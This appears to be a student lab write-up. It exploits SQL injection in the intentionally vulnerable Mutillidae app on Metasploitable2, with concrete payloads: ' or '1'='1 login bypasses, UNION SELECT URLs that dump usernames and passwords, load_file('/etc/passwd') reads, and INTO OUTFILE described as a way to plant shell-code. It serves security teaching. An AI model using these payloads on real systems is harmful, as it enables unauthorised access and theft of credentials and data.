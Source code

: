 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/22003197/sqlinjection/assets/124332243/636d70bb-b90f-455b-8df6-2875f7074b35)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/22003197/sqlinjection/assets/124332243/5533adf3-2757-458d-a9db-bcf0172b955d)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/22003197/sqlinjection/assets/124332243/5757b3be-d88c-4b21-8ecb-11366f63ae07)
Click on the menu Login/Register and register for an account
![image](https://github.com/22003197/sqlinjection/assets/124332243/0807057e-6187-4975-8c08-a1839793eb1a)
Click on the link “Please register here”
![image](https://github.com/22003197/sqlinjection/assets/124332243/a7d8637e-2ebc-48ce-9455-c75b6b31ebfb)
Click on “Create Account” to display the following page:
![image](https://github.com/22003197/sqlinjection/assets/124332243/c58342b5-ef01-452d-8b14-666b8a67a1cb)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/22003197/sqlinjection/assets/124332243/cb8881ec-9db1-4a98-8bf1-c0e3698d3a9e)
Click “Login”. The logged in page will show as below:
![image](https://github.com/22003197/sqlinjection/assets/124332243/d16cdb91-fe80-4829-ba94-deed09df4d6b)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/22003197/sqlinjection/assets/124332243/20b1af62-50db-450e-890f-0ef5757b13a1)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/22003197/sqlinjection/assets/124332243/9a20f889-bfe9-4f56-b78c-70e7d4ec06b9)
## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”
![image](https://github.com/22003197/sqlinjection/assets/124332243/69bb43f0-a9de-4a17-9610-6e4b65b0fe72)
![image](https://github.com/22003197/sqlinjection/assets/124332243/ca992da6-6d54-40c6-9772-a973e01d0606)
![image](https://github.com/22003197/sqlinjection/assets/124332243/e98005b1-cb87-40b6-81e5-a1db9cae4757)
![image](https://github.com/22003197/sqlinjection/assets/124332243/213068f7-1af4-47bf-8e57-a8b7ae782e15)
![image](https://github.com/22003197/sqlinjection/assets/124332243/06d96ed2-89ae-423c-bc5a-1796189b79d4)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
After logging out, Now choose the menu as shown below: img
![image](https://github.com/22003197/sqlinjection/assets/124332243/2d175e27-60c8-4de1-8adc-2900634e83e8)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/22003197/sqlinjection/assets/124332243/04294af8-107e-4af6-9ac3-c91c9c5917cf)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/22003197/sqlinjection/assets/124332243/30d2672c-ea6b-4314-add0-53168e3ce688)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/22003197/sqlinjection/assets/124332243/eaa950ff-9c0b-45df-958d-9b50acb4811c)
![image](https://github.com/22003197/sqlinjection/assets/124332243/7d34d6a0-39e0-4cfc-b664-ce4b6c867de1)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/22003197/sqlinjection/assets/124332243/b29389af-5aa1-46a1-8ad9-d254fb7ddb1b)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/22003197/sqlinjection/assets/124332243/621881c7-23e6-4cc5-bd14-0f2ef9c767ea)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/22003197/sqlinjection/assets/124332243/7ccb298a-30e5-4b0e-a8d8-513b28092611)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/22003197/sqlinjection/assets/124332243/60800813-2785-4782-bdef-dd5d7af5f9de)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/22003197/sqlinjection/assets/124332243/69ed7078-7c25-4829-b5d6-b40ffcf5877e)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/22003197/sqlinjection/assets/124332243/1a95a44a-85e5-4cd4-a604-58645079ece6)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/22003197/sqlinjection/assets/124332243/dcc33212-e3b9-4cbf-a397-0212cfd69766)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/22003197/sqlinjection/assets/124332243/279d8d68-b498-4f1b-ba41-9a013ff380d8)
## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/22003197/sqlinjection/assets/124332243/048e3298-7240-4103-aec4-fa0f9cbd354e)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

